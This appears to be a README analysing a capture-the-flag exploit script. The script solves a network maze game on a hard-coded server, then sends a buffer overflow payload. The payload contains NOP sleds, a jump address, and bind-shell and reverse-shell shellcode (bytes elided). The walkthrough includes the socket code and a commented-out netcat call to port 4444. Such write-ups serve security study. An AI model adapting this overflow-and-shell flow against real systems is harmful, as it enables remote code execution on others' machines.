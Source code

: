 # Nethack.us-RobotMaze-RCE

The main file you need to look at is 'solve_maze.py'


# Exploit Script Analysis

## 1. Imports & Setup

```python
import os, sys
import socket, errno
from time import sleep

maze_size = 3741
conn = ('104.236.116.183', 9000)
```

- **`maze_size`** → size of the maze data in bytes expected from the server.  
- **`conn`** → the IP and port of the challenge server.  

---

## 2. Shellcode Definitions

```python
def shellcode():
    ...
    bind_shell = b"..."
    rev2 = b"..."
```

- **`bind_shell`** → raw x86 shellcode that opens a bind shell on port `4444`.  
- **`rev2`** → reverse shell shellcode that connects back to a specific IP and port.  
- **NOP sleds** (`\x90`) are added before and after to help the shellcode land in memory safely.  
- At the end:  
  ```python
  b'\xd3\x79\x0b\x08' # address to jump to ECX
  ```
  is likely an address in the vulnerable process's memory (little-endian format).  

The function **returns** the complete payload.

---

## 3. Socket Connection Functions

```python
def connect_sock():
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(conn)
    sock.setblocking(False)
    return sock
```

- Connects to the target server.
- Sets non-blocking mode to avoid hanging during reads.

```python
def read_sock(sock, size):
    data = b""
    while len(data) < size:
        try:
            data += sock.recv(4096)
        except IOError as e:
            sleep(.2)
            if e.args[0] == errno.EAGAIN:
                continue
            else:
                print(e)
                sys.exit(0)
    return data
```

- Reads exactly `size` bytes from the socket, retrying if no data is ready (`EAGAIN`).

---

## 4. Maze Solver

Uses **recursive depth-first search (DFS)** to find the path.

```python
def solve_maze(y, x, maze):
    try:
        if maze[y][x] == 2:  # Goal
            return ""
        elif maze[y][x] == 1:  # Wall
            return "E"
        elif maze[y][x] == 3:  # Already visited
            return "E"
    except IndexError:
        return "E"

    maze[y][x] = 3  # mark visited

    ret = solve_maze(y+1, x, maze)
    if ret != "E": return "s" + ret

    ret = solve_maze(y, x-1, maze)
    if ret != "E": return "a" + ret

    ret = solve_maze(y-1, x, maze)
    if ret != "E": return "w" + ret

    ret = solve_maze(y, x+1, maze)
    if ret != "E": return "d" + ret

    return "E"
```

- Maze encoding:  
  - `0` → free space  
  - `1` → wall  
  - `2` → goal  
  - `3` → visited  

- Movement mapping:  
  - `"w"` = up  
  - `"s"` = down  
  - `"a"` = left  
  - `"d"` = right  

---

## 5. Maze Parsing

```python
def parse_maze(data):
    maze = []
    for y in range(43):
        xa = []
        for x in range(43):
            rx = (y*87) + (x*2)
            sym = data[rx:rx+2]
            if sym == b"[]":
                xa.append(1)  # wall
            elif sym == b"  " or sym == b"<>":
                xa.append(0)  # empty
        maze.append(xa)
    maze[42][41] = 2  # exit
    return maze
```

- Converts ASCII maze into a 2D grid of numbers.  
- Maze is **43 × 43 tiles**, each tile taking 2 bytes in ASCII form.  
- Bottom-right corner is marked as the exit.

---

## 6. Main Exploit Flow

```python
if __name__ == "__main__":
    sock = connect_sock()
    data = read_sock(sock, maze_size)

    maze = parse_maze(data)
    solve = solve_maze(0, 1, maze)

    print(data.decode())
    sock.send(solve.encode())

    recv_len = (len(solve) - 1) * maze_size + 56
    data = read_sock(sock, recv_len)

    print(data.decode())
    sock.send(shellcode())

    print("Dropping to shell ... ACTIVE\n")
    # os.system("nc " + conn[0] + " 4444")
```

**Step-by-step:**
1. Connects to the server.
2. Reads the maze data.
3. Parses the maze into a 2D grid.
4. Solves it from starting point `(0, 1)`.
5. Sends the movement string to the server.
6. Reads additional response data (likely per-move updates).
7. Sends the shellcode payload.
8. Prepares to connect to the shell (commented out).

---

## 7. What the script actually does

This is an **automated maze-solver + buffer overflow exploit**.

It connects to a remote server, completes a mini-game (maze), then uses a vulnerability (likely in how the server processes input) to inject shellcode.

The shellcode will then start a reverse shell and connect back to the attacker.

Once exploited, the attacker gains **remote command execution** on the target.

